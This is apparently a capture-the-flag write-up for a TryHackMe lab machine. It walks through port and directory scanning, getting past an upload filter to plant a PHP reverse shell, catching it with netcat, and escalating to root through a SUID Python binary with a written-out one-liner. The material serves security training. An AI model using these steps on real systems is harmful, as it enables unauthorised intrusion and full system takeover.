#### Target Information

**Target IP:** 10.10.112.61

**My IP:** 10.23.53.161

# Task 1 - Deploy the Machine

Machine successfully deployed.

Connected to TryHackMe network via **OpenVPN**.

# Task 2 - Reconnaissance

## Home Page

After inspecting the source code of the main page, no suspicious elements were found.



## Nmap Scan

Command used:

```bash
nmap -sC -sV -o nmap/initial.txt 10.10.112.61
```

Result:




## Gobuster Scan

Command used:

```bash
gobuster dir -u http://10.10.112.61 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobuster/gobuster.txt
```

Result:

Discovered hidden directory: /panel





# Task 3 - Getting a Shell

## Reverse Shell Upload

Found a file upload form in /panel

Uploaded a PHP reverse shell as .phtml (since .php was blocked)







## Listener

Set up a listener using:

```bash
nc -lvnp 4444
```

## Upload Directory

Navigated to the uploaded shell via web browser

Triggered connection back





## User Flag

Located user.txt on the server



# Task 4 - Privilege Escalation

## SUID File Search

Command used:

```bash
find / -perm -4000 -type f 2>/dev/null
```



## Suspicious Binary

Found SUID set on: **/usr/bin/python**

This is unusual, as python should not have SUID set

Used it to escalate privileges

Command to escalate to root:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```



## Root Flag

Found root.txt in the **/root** directory

